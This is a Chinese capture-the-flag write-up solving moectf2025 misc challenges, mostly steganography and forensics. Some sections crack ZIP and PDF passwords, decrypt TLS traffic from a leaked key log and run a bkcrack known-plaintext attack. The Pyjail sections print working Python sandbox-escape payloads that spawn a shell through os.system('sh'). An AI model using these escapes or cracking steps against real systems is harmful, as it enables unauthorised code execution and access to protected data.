# **moectf2025-misc**

西电终端这几天好像出问题了 所以就在本地打了



## **Enchantment**

**题目描述**：题目附件：enchantment.pcapng  
哇多么好的附魔啊  
你把图片发了出去，但似乎附魔台上的文字有一些不对劲？  
注：请将最终结果按单词以\_分离并包上moectf{}提交，忽略大小写  
**工具**：Wireshark

附件是 pcapng文件 用 **Wireshark** 打开  
筛选http流量 发现有个传png图片的



把图片导出



银河文字 翻译一下


```
THE FLAG IS BELOW
NOW YOU HAVE
MASTERED
EOCHANTING
```

取得flag flag为  
`moectf{NOW_YOU_HAVE_MASTERED_ENCHANTING}`

## **Encrypted volume**

**题目描述**：题目附件：volume.rar  
找到钥匙，解开加密卷！  
**工具**：010Editor VeraCrypt

题目附件rar 解压得到两个无后缀文件



没什么线索 回rar看一看  
用 **010Editor** 打开 发现有个png文件



手动分离一下 是个二维码 扫一下 得到  
`:@(s<"A3F:89x541Ux[<`

应该是加密卷 用 **VeraCrypt** 解密  
得到txt文件




brianfuck [在线网站](https://wnkit.com/tool/brainfuck-ook-encrypt-decrypt)解一下



取得flag flag为  
`moectf{nOW_YoU-h4V3_UNlocKED-VOlumE}`

## **ez_png**

**题目描述**：题目附件：ez_png.png  
这张平平无奇的图片里藏着一个小秘密。  
秘密不在颜色中，而在文件的骨骼里。  
注意：某些数据段的长短似乎不太协调。  
**工具**：pngcheck binwalk

附件是png 根据题目描述 数据段长短不太协调  
用 **pngcheck** 查看



IDAT块有两个没填满的 可疑的是38字节的  
**binwalk** 分离一下



打开分离出来的文件找



复制 取得flag flag为  
`moectf{h1DdEn_P4YlOaD_IN-Id4T}`

## **ez_ssl**

**题目描述**：题目附件：ez_ssl.pcapng  
zero6six 在网页内上传了一份秘密文件。望着浏览器提示的“连接安全，信息不会外泄”，他觉得万无一失。  
但与此同时，他的浏览器却悄悄上传了另一份文件。  
现在把他电脑的抓包记录给你，你能破解他的秘密吗？  
**工具**：Wireshark ARCHPR

附件是pacpng文件 **Wireshark** 打开  
根据题目描述 上传文件 要用POST 筛选一下



追踪http流



上传了一个 ssl.log文件 根据题目 这就是我们要的文件 整出来  
有了这个文件 我们就可以看到http的明文

```
CLIENT_RANDOM 5cc9d58e7bf7268c8c7ca13915b43530206bc57523a3dc06420f47291081bf70 3318cf82ad502316bfa204be096be19f297b0e5f680d81e462c39d0af53ab67b82d0e11b54db16dae81394cd9e9816e4
CLIENT_RANDOM 523878d7689e894823485b8f32727c779f8605866423eab6f4cc16c9df1cfb33 3318cf82ad502316bfa204be096be19f297b0e5f680d81e462c39d0af53ab67b82d0e11b54db16dae81394cd9e9816e4
CLIENT_RANDOM ccfba4dd12e374afd300f296b691e12b70f9d5f8be0458782887763c8a54626e 3318cf82ad502316bfa204be096be19f297b0e5f680d81e462c39d0af53ab67b82d0e11b54db16dae81394cd9e9816e4
CLIENT_RANDOM c8e817f2efcee3be9290aa075919f50f329be997b124487d02a1850e48c4292d 3318cf82ad502316bfa204be096be19f297b0e5f680d81e462c39d0af53ab67b82d0e11b54db16dae81394cd9e9816e4
```

把上面的文件在TLS导入



发现这一条流量


追踪http流 上传的是个压缩包 提取出来



加密了 下面的注释说是7位纯数字  
**ARCHPR** 爆破



出来了 爆破了好久......  
密码6921682 解压



ook加密 [在线网站](https://wnkit.com/tool/brainfuck-ook-encrypt-decrypt)解密



复制 取得flag flag为  
`moectf{upI0@d-l0G_TO-DeCrYPT_uploAD}`

## **Rush**

**题目描述**：题目附件：rush.gif  
“冲刺，冲刺！”你正走在路上，耳边传来这样的声音，还没反应过来，就被撞倒了。  
你费劲地爬起来，好像看到了什么信息，回过神来那人早已扬长而去，那我缺的这个道歉这块？  
~~上述文案纯属看图说话，玩个梗，无恶意~~  
**工具**：Stegsolve QR_Research

附件gif 打开看看 看见有个二维码  
**Stegsolve** 逐帧读取gif


缺个定位符的二维码 先试试直接扫 不行再补  
**QR_Research** 扫码



直接出来了

复制 取得flag flag为  
`moectf{QR_C0d3s_feATUR3_eRror_c0RRECt10N}`

## **SSTV**

**题目描述**：题目附件：sstv.wav  
识别并解码附件中使用的特殊通信协议，以获取隐藏信息。  
**工具**：mmsstv

给的wav音频 听一下 sstv的电波声  
直接打开 **mmsstv** 听就行



取得flag flag为  
`moectf{d3codiNG_SStV_reQu1REs-PATI3nC3}`

## **WebRepo**

**题目描述**：题目附件：WebRepo.webp  
这都是什么稀奇古怪的格式！？  
**工具**：QR_Research binwalk git

给的一个webp图片 是个二维码 **QR_Research** 扫一下



得到hint  
`Flag is not here, but I can give you a hint: Use binwalk.`

按他的来 **binwalk** 一下



7z压缩包 提取出来


`.git` 用git指令交互一下  
`git log` 查看历史提交记录



有个flag `git show 249ff41401736165cd4514cee7afcd31ecfe7d09`  
看看它干嘛了



它放了个 flag.txt 而且git把内容也打印出来了  
复制 取得flag flag为  
`moectf{B1NwA1K_ANd_g1t_R3seT-MaG1C}`

## **weird_photo**

**题目描述**：题目附件: photo.png  
FLAG就在图中。  
什么，你说你看不见 FLAG？注意 CRC！  
**工具**：010Editor

附件是个png图片 根据题目描述“CRC” 猜测宽高被改  
用 **010Editor** 打开 把高改大点



保存 打开图片


取得flag flag为  
`moectf{Image_Height_Restored}`

## **哈基米难没露躲**

**题目描述**：题目附件：hachimigo.zip  
出题人哈基米音乐听多了(bushi  
**工具**：010Editor

附件zip 解压一下



哈基米说是 应该是什么加密吧 搜一下  
搜了几个在线网站 虽然都是哈基米加密 但是解不开  
找找还有没有信息 **010Editor** 看看原来的压缩包



有hint  
`hint{https://lhlnb.top/hajimi/base64}`

访问这个网址



给了个fakeflag



写wp复制过来就蹦出来了 嗯零宽字符隐写 意外之喜说是  
拿去[在线网站](https://tool.bfw.wiki/tool/1695021695027599.html)解密



复制 取得flag flag为  
`moectf{1b8956b9-a423-4101-a1bd-65be33682c82}`

---

做到这网站复活了

## **Misc入门指北**

**题目描述**：题目附件：miscru*men_zhi_bei*.pdf
欢迎来到misc的世界^\_^  
想要的flag就藏在入门指北里面，快去找找看吧~  
**工具**：

附件pdf 先考虑白色字体隐写  
打开 全选 复制到记事本



发现flag 复制 取得flag flag为  
`moectf{We1c0m3_7o_tH3_w0R1d_0f_m1sc3111aN3ous!!`



## **ez_LSB**

**题目描述**：题目附件：xidian.png  
这是一张普通的图片，但是一个个像素看过去似乎有些蹊跷？  
**工具**：zsteg Cyberchef

png图片 根据题目 LSB隐写  
用 **zsteg** 查看



找到

```
"The flag is: bW9lY3Rme0xTQl8xc19zMF8xbnQzcmVzdDFuZyEhc2o5d2R9"
```

像base64 拿去 解密



复制 取得flag flag为
`moectf{LSB_1s_s0_1nt3rest1ng!!sj9wd}`



## **捂住一只耳**

**题目描述**：题目附件：粒子艺术.wav  
一只手捂住耳朵 另一只手打开音乐 似乎听到了不一样的声音  
flag 形式以moectf{}包裹提交，忽略大小写  
**工具**：Audacity Cyberchef

附件wav音频 根据题目描述 猜测声道隐写  
用 **Audacity** 打开



左声道发现莫斯密码 记下来

```
..-. .-.. .- --. .. ... ---... .... .- .-.. ..-. ..--.- .-. .- -.. .. --- ..--.- .. -. ..--.- -..- -.. ..-
```

**Cychef** 解密



取得flag flag为  
`moectf{HALF_RADIO_IN_XDU}`



## **ez\_锟斤拷????**

**题目描述**：题目附件：flag.txt  
E=hv在记事本里写下了一些神秘字符，但是经过一通保存另存为的迷之操作之后文本文件里的东西全变成了乱码  
现在我把这个文件给你，请你帮助hv找回文件的秘密吧！  
请把得到的flag转换成半角字符上交  
hint：此题解法与锟斤拷有关  
**工具**：Python

附件txt 看看


根据hint 搜搜锟斤拷





可以知道 锟斤拷是GBK错误的把Unicode的占位符当做汉字编码的结果  
所以我们只需要把乱码逆GBK 再用UTF-8编码即可  
编写脚本

```
# 锟斤拷乱码修复

def fix(file):
    # 读取乱码文件的内容
    with open(file, "r", encoding="utf-8", errors="ignore") as f:
        data = f.read()

    # 当作 GBK 解码成字节 再用 UTF-8 解码
    fixed = data.encode("gbk", errors="ignore").decode("utf-8", errors="ignore")

    with open("fixed.txt", "w", encoding="utf-8") as f:
        f.write(fixed)

    print("修复完成 修复文件存储在 fixed.txt")

if __name__ == "__main__":
    file_name="flag.txt"
    fix(file_name)
```

运行



```
ｍｏｅｃｔｆ｛ＥｎＣ０ｄ１ｉｎｇ＿ｇｂＫ＿＠ｎＤ＿Ｕｔｆ＿８＿１ｓ＿４ｕｎ！！ｅｗｗｗｗ｝恭喜你得到弗拉格后面全昔斤拷锟斤拷锟斤拷
```

把这段全角字符换成半角字符  
这里写了个脚本方便复用

```
# 全角半角转换

def full_to_half(text):
    """
    全角转半角
    :param text:
    :return:
    """
    result = []
    for char in text:
        code = ord(char)
        if code == 0x3000:
            code = 0x0020
        elif 0xFF01 <= code <= 0xFF5E:
            code -= 0xFEE0
        elif 0x2010 <= code <= 0x2015:
            code = 0x002D
        result.append(chr(code))
    return ''.join(result)


def half_to_full(text):
    """
    半角转全角
    :param text:
    :return:
    """
    result = []
    for char in text:
        code = ord(char)
        if code == 0x0020:
            code = 0x3000
        elif 0x0021 <= code <= 0x007E:
            code += 0xFEE0
        elif code == 0x002D:
            code = 0x2014
        result.append(chr(code))
    return ''.join(result)


if __name__ == "__main__":

    # 全->半
    full_text = "ｍｏｅｃｔｆ｛ＥｎＣ０ｄ１ｉｎｇ＿ｇｂＫ＿＠ｎＤ＿Ｕｔｆ＿８＿１ｓ＿４ｕｎ！！ｅｗｗｗｗ｝"
    print(full_to_half(full_text))

    # 半->全
    half_text = ""
    print(half_to_full(half_text))
```

运行



复制 取得flag flag为  
`moectf{EnC0d1ing_gbK_@nD_Utf_8_1s_4un!!ewwww}`



## **encrypted_pdf**

**题目描述**：题目附件：不知道写什么.pdf diary.txt  
这年头，啥都能带个密码，pdf也不例外。  
难道有密码就能拦住我堂堂misc手吗？？不可能的！  
**工具**：pdfcrack

根据题目描述 pdf加密 有个txt文件 先看看


得知是弱密码 可以进行爆破  
这里用 **pdfcrack** 配合 **rockyou** 爆破



得到密码 qwe123 打开pdf



何意味


哦哦下面还有东西 我还以为又是什么奇奇怪怪的编码

Ctrl+a 已经发现隐写文本了 复制到记事本观看即可



复制 取得flag flag为  
`moectf{Pdf_1s_r3a1ly_c0lor4ul!!ihdw}`



## **万里挑一**

**题目描述**：题目附件：hint.txt lock.zip password.zip  
要想冲破封锁，寻得真谛，须从万把钥匙中找出唯一的答案  
**工具**：Python ARCHPR 010Editor bkcrack

有hint 先看hint


在这10000个档案中，只有一个密码可以打开锁

发现passwor.zip可以直接解压 看看内容



里面还是压缩包 看看



666套娃说是  
应该是要解压所有压缩包 组成字典去爆破lock.zip  
ai写一个脚本 作用是解压所有压缩包并拼接文本生成字典

```
import os
import zipfile


def extract_all_and_merge_text(start_path, output_file="merged_dict.txt"):
    all_text_lines = []
    processed = set()
    to_process = [(start_path, "")]

    while to_process:
        current_dir, rel_path = to_process.pop(0)
        try:
            items = os.listdir(current_dir)
        except PermissionError:
            continue

        for item in items:
            item_path = os.path.join(current_dir, item)
            if os.path.isdir(item_path):
                to_process.append((item_path, os.path.join(rel_path, item)))
            elif os.path.isfile(item_path):
                if item_path in processed:
                    continue
                processed.add(item_path)

                if item.lower().endswith('.zip'):
                    try:
                        extract_dir = item_path + "_unzipped"
                        os.makedirs(extract_dir, exist_ok=True)
                        with zipfile.ZipFile(item_path, 'r') as zf:
                            zf.extractall(extract_dir)
                        to_process.append((extract_dir, os.path.join(rel_path, item)))
                    except Exception as e:
                        print(f"解压失败 {item_path}: {e}")

                elif item.lower().endswith('.txt') or '.' not in item:
                    try:
                        with open(item_path, 'r', encoding='utf-8', errors='ignore') as f:
                            content = f.read().strip()
                            if content:
                                all_text_lines.append(content)
                                print(f"提取文本: {item_path}")
                    except Exception as e:
                        print(f"读取文本失败 {item_path}: {e}")

    with open(output_file, 'w', encoding='utf-8') as f:
        f.write('\n\n'.join(all_text_lines))

    print(f"完成！共提取了 {len(all_text_lines)} 个文本片段，保存至 {output_file}")


if __name__ == "__main__":
    # 修改为当前目录
    input_folder = "."  # 这里改成 "." 表示当前目录
    output_file = "merged_dict.txt"
    extract_all_and_merge_text(input_folder, output_file)
```

运行 这里运行时间还挺长的  
打开生成的txt文件检查 发现多了前缀 **The password is:** 把它替换为空即可



打开 **ARCHPR** 导入刚刚的字典 爆破即可



得到密码 a296a5ec1385f394e8cb 解压

得到flag.zip 内容如下



明文攻击说是 但是内容是个exe文件 分析下exe文件的结构吧  
用 **010Editor** 随便打开个exe文件看看

明文攻击要至少12个字节 exe的文件头 `4D 5A` 不够使  
不过看到一段这样的文本



查询一下这段文本是不是每一个exe文件都有



ok可以用 数一下偏移量为78个字节

```
546869732070726F6772616D2063616E6E6F742062652072756E20696E20444F53206D6F6465
```

用 **bkcrack** 攻击



拿到三个密钥 `eec878a3` `6808e48f` `3aa41bd8`  
提取 flag.txt



打开 flag.txt


复制 取得flag flag为  
`moectf{Y0u_h4v3_cho5en_7h3_r1ght_z1pf1le!!uysdgfsad}`





## **Pyjail 0**

**题目描述**:A simple reader (所以严格来说这题不算 Pyjail)  
你可以使用 netcat 或 pwntools（参考二进制漏洞审计入门指北）连接到本题和后续 Pyjail 题的环境。  
关于验证码，示例：Please enter the reverse of 'GZUUAOIS' to continue: SIOAUUZG  
至于 flag 的位置？你可以参考 Web 第十二章（  
**工具**：WebSocket

就是开环境麻烦点 主机上 **WebSocket** 开完wsl半天连不上  
最后用 0.0.0.0 + 主机ip 连上了


大致就是让你输随机数的逆序 然后猜flag的位置  
根据题目描述 看web十二章的wp 发现是env  
也就是 /proc/self/environ

复制 取得flag flag为  
`moectf{adba1313-7797-c779-5bce-04ad7a7307b9}`



## **Pyjail 1**

**题目描述**flag 位置在 /tmp 下  
其他信息见 Pyjail 0  
**工具**：Python WebSocket

感觉Pyjail就是misc版的SSTI......  
等于是给SSTI补课了

拿附件 源码如下

```
def chall():
    user_input = input("Give me your code: ")

    # 过滤关键字
    forbidden_keywords = ['import', 'eval', 'exec', 'open', 'file']
    for keyword in forbidden_keywords:
        if keyword in user_input:
            print(f"Forbidden keyword detected: {keyword}")
            return

    result = eval(user_input)
```

这里用 `eval()` 执行输入  
过滤了 `import` `eval` `exec` `open` `file`

想拿shell 可以用os里的system('sh')  
不过这里 import 被ban了 可以用拼接绕过

`__builtins__.__dict__['__imp' + 'ort__']('os').system('sh')`



这里拿到shell看见没反应了 还以为卡了  
然后又犯蠢没劲目录就cat 我是人机  
不过总归是拿到了 复制 取得flag flag为  
`moectf{0d373ad5-5f18-2c69-6b68-4c913a318ac3}`



## **Pyjail 2**

**题目描述**flag 位置在 /tmp 下  
其他信息见 Pyjail 0  
**工具**：Python WebSocket

拿附件 源码如下

```
def chall():
    user_input = input("Give me your code: ")

    # 过滤关键字
    forbidden_keywords = ['import', 'eval', 'exec', 'open', 'file']
    for keyword in forbidden_keywords:
        if keyword in user_input:
            print(f"Forbidden keyword detected: {keyword}")
            return

    # 过滤特殊字符
    forbidden_chars = ['.', '_', '[', ']', "'", '"']
    for char in forbidden_chars:
        if char in user_input:
            print(f"Forbidden character detected: {char}")
            return

    result = eval(user_input)
```

比起上一题 多ban了  
`.` `_` `[` `]` `'` `"`  
这下不能拼接了

现查 查见能用 `breakpoint()`

会进入 pdb  
在 pdb 里可以输入 `import os; os.system('sh')` 之类的  
这些输入不再受 eval 和过滤的限制  
pdb 里以 `!` 开头的命令会被当作 Python 表达式



这里又犯蠢了嗯对 第一下忘记加类了 不过还是拿到了  
复制 取得flag flag为  
`moectf{0ee52ff3-95f1-9144-7121-5057fd4e025c}`



## **Pyjail 3**

**题目描述**flag 位置在 /tmp 下  
其他信息见 Pyjail 0  
**工具**：Python WebSocket

拿附件 看源码

```
def chall():
    user_input = input("Give me your code: ")

    try:
        result = eval(user_input, {"__builtins__": None}, {})
        # Hint: When __builtins__ is None, you need to be more creative...
        print("Code executed successfully!")
        if result is not None:
            print(f"Return value: {result}")
    except Exception as e:
        print(f"Execution error: {type(e).__name__}: {e}")

```

有 Hint

```
# Hint: When __builtins__ is None, you need to be more creative...
```

总之就是把 `__builtins__` 给整个置空了  
Hint让找找其他能用的

艾所以说Pyjail就是misc版的SSTI  
去到 `__object__` 先

`().__class__.__base__[0].__subclasses__()`

返回 `()` 的类的最"根"最"父亲"的类 即 `__object__`  
然后 `__subclasses__()` 列出所有类



```
[<class 'type'>,
<class 'async_generator'>,
<class 'bytearray_iterator'>,
<class 'bytearray'>,
<class 'bytes_iterator'>,
<class 'bytes'>,
<class 'builtin_function_or_method'>,
<class 'callable_iterator'>,
<class 'PyCapsule'>,
<class 'cell'>,
<class 'classmethod_descriptor'>,
<class 'classmethod'>,
<class 'code'>,
<class 'complex'>,
<class '_contextvars.Token'>,
<class '_contextvars.ContextVar'>,
<class '_contextvars.Context'>,
<class 'coroutine'>,
<class 'dict_items'>,
<class 'dict_itemiterator'>,
<class 'dict_keyiterator'>,
<class 'dict_valueiterator'>,
<class 'dict_keys'>,
<class 'mappingproxy'>,
<class 'dict_reverseitemiterator'>,
<class 'dict_reversekeyiterator'>,
<class 'dict_reversevalueiterator'>,
<class 'dict_values'>,
<class 'dict'>,
<class 'ellipsis'>,
<class 'enumerate'>,
<class 'filter'>,
<class 'float'>,
<class 'frame'>,
<class 'frozenset'>,
<class 'function'>,
<class 'generator'>,
<class 'getset_descriptor'>,
<class 'instancemethod'>,
<class 'list_iterator'>,
<class 'list_reverseiterator'>,
<class 'list'>,
<class 'longrange_iterator'>,
<class 'int'>,
<class 'map'>,
<class 'member_descriptor'>,
<class 'memoryview'>,
<class 'method_descriptor'>,
<class 'method'>,
<class 'moduledef'>,
<class 'module'>,
<class 'odict_iterator'>,
<class 'pickle.PickleBuffer'>,
<class 'property'>,
<class 'range_iterator'>,
<class 'range'>,
<class 'reversed'>,
<class 'symtable entry'>,
<class 'iterator'>,
<class 'set_iterator'>,
<class 'set'>,
<class 'slice'>,
<class 'staticmethod'>,
<class 'stderrprinter'>,
<class 'super'>,
<class 'traceback'>,
<class 'tuple_iterator'>,
<class 'tuple'>,
<class 'str_iterator'>,
<class 'str'>,
<class 'wrapper_descriptor'>,
<class 'zip'>,
<class 'types.GenericAlias'>,
<class 'anext_awaitable'>,
<class 'async_generator_asend'>,
<class 'async_generator_athrow'>,
<class 'async_generator_wrapped_value'>,
<class '_buffer_wrapper'>,
<class 'Token.MISSING'>,
<class 'coroutine_wrapper'>,
<class 'generic_alias_iterator'>,
<class 'items'>, <class 'keys'>,
<class 'values'>,
<class 'hamt_array_node'>,
<class 'hamt_bitmap_node'>,
<class 'hamt_collision_node'>,
<class 'hamt'>,
<class 'sys.legacy_event_handler'>,
<class 'InterpreterID'>,
<class 'line_iterator'>,
<class 'managedbuffer'>,
<class 'memory_iterator'>,
<class 'method-wrapper'>,
<class 'types.SimpleNamespace'>,
<class 'NoneType'>,
<class 'NotImplementedType'>,
<class 'positions_iterator'>,
<class 'str_ascii_iterator'>,
<class 'types.UnionType'>,
<class 'weakref.CallableProxyType'>,
<class 'weakref.ProxyType'>,
<class 'weakref.ReferenceType'>,
<class 'typing.TypeAliasType'>,
<class 'typing.Generic'>,
<class 'typing.TypeVar'>,
<class 'typing.TypeVarTuple'>,
<class 'typing.ParamSpec'>,
<class 'typing.ParamSpecArgs'>,
<class 'typing.ParamSpecKwargs'>,
<class 'EncodingMap'>,
<class 'fieldnameiterator'>,
<class 'formatteriterator'>,
<class 'BaseException'>,
<class '_frozen_importlib._WeakValueDictionary'>,
<class '_frozen_importlib._BlockingOnManager'>,
<class '_frozen_importlib._ModuleLock'>,
<class '_frozen_importlib._DummyModuleLock'>,
<class '_frozen_importlib._ModuleLockManager'>,
<class '_frozen_importlib.ModuleSpec'>,
<class '_frozen_importlib.BuiltinImporter'>,
<class '_frozen_importlib.FrozenImporter'>,
<class '_frozen_importlib._ImportLockContext'>,
<class '_thread.lock'>,
<class '_thread.RLock'>,
<class '_thread._localdummy'>,
<class '_thread._local'>,
<class '_io.IncrementalNewlineDecoder'>,
<class '_io._BytesIOBuffer'>,
<class '_io._IOBase'>,
<class 'posix.ScandirIterator'>,
<class 'posix.DirEntry'>,
<class '_frozen_importlib_external.WindowsRegistryFinder'>,
<class '_frozen_importlib_external._LoaderBasics'>,
 <class '_frozen_importlib_external.FileLoader'>,
<class '_frozen_importlib_external._NamespacePath'>,
<class '_frozen_importlib_external.NamespaceLoader'>,
<class '_frozen_importlib_external.PathFinder'>,
<class '_frozen_importlib_external.FileFinder'>,
<class 'codecs.Codec'>,
<class 'codecs.IncrementalEncoder'>,
<class 'codecs.IncrementalDecoder'>,
<class 'codecs.StreamReaderWriter'>,
<class 'codecs.StreamRecoder'>,
<class '_abc._abc_data'>,
<class 'abc.ABC'>,
<class 'collections.abc.Hashable'>,
<class 'collections.abc.Awaitable'>,
<class 'collections.abc.AsyncIterable'>,
<class 'collections.abc.Iterable'>,
<class 'collections.abc.Sized'>,
<class 'collections.abc.Container'>,
<class 'collections.abc.Buffer'>,
<class 'collections.abc.Callable'>,
<class 'genericpath.ALLOW_MISSING'>,
<class 'os._wrap_close'>,
<class '_sitebuiltins.Quitter'>,
<class '_sitebuiltins._Printer'>,
<class '_sitebuiltins._Helper'>,
<class 'ast.AST'>,
<class 'warnings.WarningMessage'>,
<class 'warnings.catch_warnings'>,
<class 'operator.attrgetter'>,
<class 'operator.itemgetter'>,
<class 'operator.methodcaller'>,
<class 'itertools.accumulate'>,
<class 'itertools.batched'>,
<class 'itertools.chain'>,
<class 'itertools.combinations'>,
<class 'itertools.compress'>,
<class 'itertools.count'>,
<class 'itertools.combinations_with_replacement'>,
<class 'itertools.cycle'>,
<class 'itertools.dropwhile'>,
<class 'itertools.filterfalse'>,
<class 'itertools.groupby'>,
<class 'itertools._grouper'>,
<class 'itertools.islice'>,
<class 'itertools.pairwise'>,
<class 'itertools.permutations'>,
<class 'itertools.product'>,
<class 'itertools.repeat'>,
<class 'itertools.starmap'>,
<class 'itertools.takewhile'>,
<class 'itertools._tee'>,
<class 'itertools._tee_dataobject'>,
<class 'itertools.zip_longest'>,
<class '_random.Random'>,
<class '_sha2.SHA224Type'>,
<class '_sha2.SHA256Type'>,
<class '_sha2.SHA384Type'>,
<class '_sha2.SHA512Type'>,
<class 'types.DynamicClassAttribute'>,
<class 'types._GeneratorWrapper'>,
<class 'reprlib.Repr'>,
<class 'collections.deque'>,
<class 'collections._deque_iterator'>,
<class 'collections._deque_reverse_iterator'>,
<class 'collections._tuplegetter'>,
<class 'collections._Link'>,
<class 'functools.partial'>,
<class 'functools._lru_cache_wrapper'>,
<class 'functools.KeyWrapper'>,
<class 'functools._lru_list_elem'>,
<class 'functools.partialmethod'>,
<class 'functools.singledispatchmethod'>,
<class 'functools.cached_property'>,
<class 'enum.nonmember'>,
<class 'enum.member'>,
<class 'enum._not_given'>,
<class 'enum._auto_null'>,
<class 'enum.auto'>,
<class 'enum._proto_member'>,
<enum 'Enum'>, <class 'enum.verify'>,
<class 're.Pattern'>,
<class 're.Match'>,
<class '_sre.SRE_Scanner'>,
<class '_sre.SRE_Template'>,
<class 're._parser.State'>,
<class 're._parser.SubPattern'>,
<class 're._parser.Tokenizer'>,
<class 're.Scanner'>,
<class 'string.Template'>,
<class 'string.Formatter'>]
```

瞅瞎我的眼吧再 扔给ai看看



嗯ai依旧不会数数说是 不过找到类就行了 大不了我自己数.....

这里用 `os._wrap_close`



记事本显示的行数是155

`().__class__.__bases__[0].__subclasses__()[155].__init__.__globals__['__builtins__']['__import__']('os').system('sh')`



复制 取得flag flag为  
`moectf{9d48e9c3-3880-0bd9-63d6-8eaa9646a139}`


